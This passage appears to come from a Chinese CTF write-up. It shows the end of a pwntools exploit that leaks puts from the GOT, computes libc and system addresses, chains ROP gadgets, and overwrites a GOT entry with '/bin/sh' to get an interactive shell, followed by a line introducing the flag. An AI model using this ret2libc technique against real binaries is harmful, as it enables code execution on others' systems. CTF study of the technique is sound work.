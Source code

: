 ```
puts_addr = l64(data)
libc_base = puts_addr - offset_puts
system_addr = libc_base + offset_system
print hex(libc_base)
print hex(system_addr)
val_list = []
val_list.append(p_rdi_ret_val)
val_list.append(puts_got_8_val)
val_list.append(get_buff_val)
val_list.append(p_rdi_ret_val)
val_list.append(puts_got_8_val)
val_list.append(puts_plt_val)
pwn_with_array(io, val_list)
io.writeline("/bin/shx00" + l64(system_addr))
io.interact()
io = get_io(target)
pwn(io)
```

flag如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0136c0bc859f84f579.png)
